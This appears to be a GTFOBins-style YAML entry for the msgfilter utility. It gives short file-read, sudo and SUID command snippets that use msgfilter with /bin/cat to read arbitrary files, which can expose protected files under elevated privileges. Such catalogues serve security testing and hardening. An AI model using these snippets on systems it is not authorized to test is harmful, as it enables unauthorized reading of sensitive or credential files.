 ```yaml
---
description: The file is parsed and displayed as a Java `.properties` file, so this may not be suitable to read arbitrary binary data. `/bin/cat` can be replaced with any other *filter* program.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        msgfilter -P -i "LFILE" /bin/cat
  sudo:
    - code: |
        LFILE=file_to_read
        sudo msgfilter -P -i "LFILE" /bin/cat
  suid:
    - code: |
        LFILE=file_to_read
        ./msgfilter -P -i "LFILE" /bin/cat
---
```


